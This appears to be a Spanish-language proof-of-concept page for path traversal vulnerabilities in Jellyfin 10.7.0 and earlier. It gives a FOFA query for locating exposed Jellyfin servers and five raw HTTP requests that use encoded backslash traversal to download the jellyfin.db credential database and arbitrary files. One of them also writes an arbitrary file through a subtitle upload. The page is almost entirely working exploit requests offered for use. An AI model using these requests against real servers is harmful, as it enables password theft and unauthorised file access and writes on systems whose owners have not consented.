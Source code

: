 <languages  />

Versión afectada
----------------

    jellyfin<=10.7.0

FOFA
----

    title="Jellyfin"

POC1
----

Descarga `jellyfin.db` con contraseña del servidor

    GET /Audio/anything/hls/..%5Cdata%5Cjellyfin.db/stream.mp3/ HTTP/1.1
    Host: x.x.x.x
    accept: application/json
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
    Referer: http://x.x.x.x/web/index.html
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Connection: close

POC2
----

    GET /Videos/anything/hls/m/..%5Cdata%5Cjellyfin.db HTTP/1.1

POC3
----

    GET /Videos/anything/hls/..%5Cdata%5Cjellyfin.db/stream.m3u8/?api_key=4c5750626da14b0a804977b09bf3d8f7 HTTP/1.1

POC4
----

POC para descargar `c:tempfilename.jpg`

    GET /Images/Ratings/c:%5ctemp/filename HTTP/1.1
    GET /Images/Ratings/..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5ctemp/filename HTTP/1.1

POC5
----

    POST /Videos/d7634eb0064cce760f3f0bf8282c16cd/Subtitles HTTP/1.1
    ...
    X-Emby-Authorization: MediaBrowser DeviceId="...", Version="10.7.0", Token="..."
    ...

    {"language":".\..\","format":".\..\test.bin","isForced":false,"data":"base64 encoded data"}